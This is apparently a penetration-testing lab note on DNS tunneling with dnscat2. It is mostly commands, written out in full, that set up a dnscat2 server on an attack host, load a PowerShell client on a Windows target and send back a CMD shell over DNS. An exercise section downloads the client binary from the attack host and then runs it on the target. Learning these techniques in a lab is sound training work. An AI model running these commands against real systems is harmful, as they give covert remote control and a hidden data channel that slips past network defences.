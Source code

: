 ## DNS Tunneling with Dnscat2
```
https://pentestlab.blog/tag/dnscat2/
```
## Cloning dnscat2 and Setting Up the Server
```
git clone https://github.com/iagox86/dnscat2.git
```
```
cd dnscat2/server/
```
```
sudo gem install bundler
```
```
sudo bundle install
```
## Starting the dnscat2 server
```
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. 
We can use the client with the dnscat2 project or use dnscat2-powershell, a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server.
## Cloning dnscat2-powershell to the Attack Host
```
w1j0y@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
### Transfer dnscat2.ps1 to Windows Host  
#### Windows Host
##### Importing dnscat2.ps1
```
PS C:\htb> Import-Module .\dnscat2.ps1
```
After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.
```
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
##### Confirming Session Establishment
```
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
```
dnscat2> ?
```
```
dnscat2> window -i 1
```
## Exercise (What worked for me)
1. First download the following zip file on our attack host 
```
https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip
```
2. Transfer the file to the windows host machine by using a python http server on our attack host and from powershell on the windows host
```
Invoke-WebRequest "http://10.10.14.177:8000/dnscat2-v0.07-client-win32.zip" -OutFile "C:\Windows\Temp\dnscat2-v0.07-client-win32.zip"
```
3. Next run the following commands on our attack host and windows host to establish a DNS tunnel
```
.\dnscat2-v0.07-client-win32.exe --dns server=10.10.14.177
```
```
sudo ruby dnscat2.rb --dns host=10.10.14.177,port=53,domain=inlanefreight.local --no-cache
```